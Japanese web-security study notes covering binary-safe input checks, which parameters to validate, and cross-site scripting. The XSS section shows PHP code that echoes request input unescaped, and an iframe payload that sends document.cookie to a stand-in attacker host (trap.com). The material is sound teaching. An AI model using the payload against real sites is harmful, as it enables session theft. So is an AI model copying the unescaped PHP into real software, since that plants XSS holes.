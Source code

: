 ### バイナリセーフ
* 値0の1byte(ヌルバイト)を含むデータ列を安全に処理できること
* ヌルバイトはCで特別扱いされるため正しく処理できないことが多いため
* 入力値にヌルバイトが含まれていればエラーにする(全ての文字を許容する仕様だと使えない)

### 入力検証対象のパラメータ
* 全てのパラメータ(hiddenパラメータ、ラジオボタン、select要素、クッキーの値など)

## 4-3 表示処理に伴う問題
Webアプリケーションに外部からの入力に応じて表示が変化する部分があり、
そのHTML生成の実装に問題があるとXSSが発生する

* ブラウザ上で攻撃者が用意したスクリプトが実行されてクッキーを盗まれる
* ブラウザ上で攻撃者が用意したスクリプトが実行されてWebアプリの機能を悪用される
* Webサイトに偽の入力フォームが表示されてフィッシングの被害を受ける

### XSSによるクッキー値の表示
PHPの例
```
<?php echo $_GET['keyword']; ?>
```
に
```
keyword=<script>alert(document.cookie)</script>
```
を指定するとセッションIDが表示される

### 受動的攻撃により他人のクッキー値を盗む
罠サイト(`http://trap.com/`)の中にiframeで標的サイト(`http://target.com/`))のページを表示させる
```
<html><body>
<iframe src="http://target.com/?keyword=<script>window.location='http://trap.com/?id='%2Bdocument.cookie</script>">
</iframe>
</body></html>
```

* このサイトに攻撃者を誘導する
* iframeの中でkeyword以下の次のスクリプトが実行される
```
<script>
window.location='http://trap.com/?id='+document.cookie
</script>
```

* `http://trap.com/?id=セッションID`に遷移してtrap.comにログが残る

### JavaScriptを使わないXSSの例
ログイン機能の無いサイトのXSS脆弱性の悪用

* XSS脆弱性がある粗大ゴミ受け付けサイト(target.com)
```
<form method="POST">
氏名<input name="name" value="<?php echo @$_POST['name']; ?>">
<input type=submit value="申し込み">
</form>
```
* このサイトを利用して罠サイトを作成する
